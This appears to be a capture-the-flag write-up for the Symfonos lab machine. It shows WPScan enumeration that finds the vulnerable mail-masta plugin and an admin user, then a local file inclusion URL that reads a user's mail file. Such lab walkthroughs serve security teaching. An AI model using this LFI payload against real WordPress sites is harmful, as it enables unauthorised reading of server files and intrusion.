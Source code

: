 ```
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://symfonos.local/h3l105/ [192.168.109.131]
[+] Started: Fri Jul 30 23:40:54 2021

...

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt

...

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <> (0 / 10)  0.00%  ETA: ?? Brute Forcing Author IDs - Time: 00:00:00 <> (1 / 10) 10.00%  ETA: 00 Brute Forcing Author IDs - Time: 00:00:00 <> (5 / 10) 50.00%  ETA: 00 Brute Forcing Author IDs - Time: 00:00:00 <> (6 / 10) 60.00%  ETA: 00 Brute Forcing Author IDs - Time: 00:00:00 <> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://symfonos.local/h3l105/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

...
```
## Gain Access
### LFI
```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```
![](https://i.imgur.com/WZTGo6B.png)